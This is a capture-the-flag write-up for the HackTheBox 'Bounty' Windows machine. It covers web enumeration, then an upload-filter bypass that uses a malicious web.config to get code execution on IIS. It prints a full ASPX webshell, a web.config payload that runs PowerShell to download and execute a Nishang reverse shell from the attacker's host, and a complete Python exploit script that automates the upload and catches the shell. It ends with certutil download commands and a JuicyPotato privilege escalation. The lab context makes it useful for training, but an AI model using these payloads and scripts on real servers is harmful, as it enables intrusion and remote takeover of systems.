

This is an Easy box from HackTheBox. 

It's OS is Windows, which is common in HackTheBox Machines.

It's exploration was through Web.

My rate for this machine is 5/10.

In the end you can find the automated script to explore this machine!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.60
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.


We look at the source code and find nothing


Start enumerate it with `Gobuster` and `Wfuzz`

```sh
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://10.10.10.93/FUZZ
```


We don't find anything useful, just the folder uploaded files, so it's a suggestion that we must find a place to upload files, so we try to bruteforce for aspx files, once it's Windows web (ISS)

```sh
gobuster dir -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x aspx
```


We find two things interesting, the `transfer.aspx` and the folder `UploadedFiles`

We get in the `transfer.aspx` to see what is it


Great we found the place to upload files, and the directory that we can get it

We enter on the `UploadedFiles`


## Weak File Upload

Now we try to upload a file to see how it's working, if has any kind of bypass

Try to upload a `cmdaspx.aspx`

```aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```


Did not work, it seems to be making some kind of filter. Let's try to bruteforce it to see what are the formats that it accepts

list_formats.txt

```
pl
config
aspx
asp
php
php7
cgi
exe
```

Now that we have a list from the formats we could try to bruteforce it, to see what format is being accept here.

For this we send the request to BurpSuite and to `Intruder`


We set as the Payload the format of the file


We set as argument, the list_formats.txt


And start to bruteforce it

When we see the responses from the server, we got that the `.config` is different than other. Possibliy being accept by the server.


# RCE

We search how to upload aspx files using config archives


`https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/`

`https://soroush.secproject.com/blog/tag/unrestricted-file-upload/`


```config
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Now we try to upload it to the server, the validation is to popup the number 3 when accessing it on the browser


That's it, we got it working

Now we need to get a reverse shell on it

For that we will use the Nishang reverse shell


We add the command (in the end of the file) to open it in memory and give us the reverse shell

```ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.18 -Port 4444
```

`https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1`

```aspx
<% Set rs = CreateObject("WScript.Shell") Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.18/shell.ps1')") o = cmd.StdOut.Readall() Response.write(o) %>
```

So we adapt of web.config and upload it to the server

web.config

```aspx
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.18/shell.ps1')") 
o = cmd.StdOut.Readall()
Response.write(o) %>
-->
```


When we click upload and execute it, we receive the reverse shell on port 4444


# Script

Now we will build a script to automate it, and gain a reverse shell automated

We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.port
    username = args.username
    password = args.password

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


```py
#!/usr/bin/python3
# Date: 2021-08-31
# Exploit Author: 0x4rt3mis
# Hack The Box - Bounty

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Mount the payload
def mountPayload(lhost,lport):
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport)) 
    file.close()
    print("[+] Call added! [+]")

# Get the __viewstate and __eventid
def getValues(rhost):
    global event
    global viewstate
    token_url = 'http://' + rhost + ':80/transfer.aspx'
    # Make the request to get csrf token
    token_page = r.get(token_url, proxies=proxies)
    # Get the index of the page, search for VIEWSTAT in it
    index = token_page.text.find("__VIEWSTATE")
    # Get only the csrfMagicToken in it
    viewstate = token_page.text[index:index+141].split('"')[-1]
    index = token_page.text.find("__EVENTVALIDATION")
    event = token_page.text[index:index+97].split('"')[-1]

# Upload the malicious config file
def uploadWebConfig(rhost,lhost):
    url = "http://%s:80/transfer.aspx" %rhost
    headers = {"Content-Type": "multipart/form-data; boundary=---------------------------746245891582727206331504062", "Upgrade-Insecure-Requests": "1"}
    data = "-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"__VIEWSTATE\"\r\n\r\n"+ viewstate +"\r\n-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"__EVENTVALIDATION\"\r\n\r\n"+ event +"\r\n-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"FileUpload1\"; filename=\"web.config\"\r\nContent-Type: application/octet-stream\r\n\r\n<?xml version=\"1.0\" encoding=\"UTF-8\"?>\r\n<configuration>\r\n   <system.webServer>\r\n      <handlers accessPolicy=\"Read, Script, Write\">\r\n         <add name=\"web_config\" path=\"*.config\" verb=\"*\" modules=\"IsapiModule\" scriptProcessor=\"%windir%\\system32\\inetsrv\\asp.dll\" resourceType=\"Unspecified\" requireAccess=\"Write\" preCondition=\"bitness64\" />\r\n      </handlers>\r\n      <security>\r\n         <requestFiltering>\r\n            <fileExtensions>\r\n               <remove fileExtension=\".config\" />\r\n            </fileExtensions>\r\n            <hiddenSegments>\r\n               <remove segment=\"web.config\" />\r\n            </hiddenSegments>\r\n         </requestFiltering>\r\n      </security>\r\n   </system.webServer>\r\n   <appSettings>\r\n</appSettings>\r\n</configuration>\r\n<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!\r\n<%\r\nSet rs = CreateObject(\"WScript.Shell\")\r\nSet cmd = rs.Exec(\"cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://" + lhost + "/Invoke-PowerShellTcp.ps1')\") \r\no = cmd.StdOut.Readall() \r\nResponse.write(o) \r\n%>\r\n-->\n\r\n-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"btnUpload\"\r\n\r\nUpload\r\n-----------------------------746245891582727206331504062--\r\n"
    upload = r.post(url, headers=headers, data=data, proxies=proxies)
    if "successfully" in upload.text:
        print("[+] Upload Done! [+]")
        os.system("sleep 5")
    else:
        print("[+] Failed to Upload! [+]")
        exit

# Get reverse shell
def callRev(rhost):
    print("[+] Let's call the reverse shell! [+]")
    url = "http://%s:80/UploadedFiles/web.config" %rhost
    r.get(url, proxies=proxies)
    print("[+] Reverse shell called! [+]")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--localport', help='Listening port for reverse shell', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Let's first mount the payload
    mountPayload(lhost,lport)
    # Let's get the __eventid e o __viewstate
    getValues(rhost)
    # Let's upload it
    uploadWebConfig(rhost,lhost)
    # Let's call the reverse shell
    callRev(rhost)

if __name__ == '__main__':
    main()
```

# Privilege Escalation

Now that we have the reverse shell automated on this machine, let's get the administrator on this box

Running the command `whoami /priv` we see that our user has `SeImpersonatePrivilege` enabled


So we can use the `JuicyPotato` to get administrator


`https://ohpe.it/juicy-potato/`

`https://github.com/ohpe/juicy-potato/releases/tag/v0.1`


We download it on our machine

`certutil -urlcache -split -f http://10.10.14.18:8000/JuicyPotato.exe C:\Users\Public\JuicyPotato.exe`


We create our call

`"IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.18:8000/Invoke-PowerShellTcp.ps1')"`

`certutil -urlcache -split -f http://10.10.14.18:8000/reverse.bat C:\Users\Public\reverse.bat`


Now we execute

```ps
.\JuicyPotato.exe -t * -p .\reverse.bat -l 1111
```

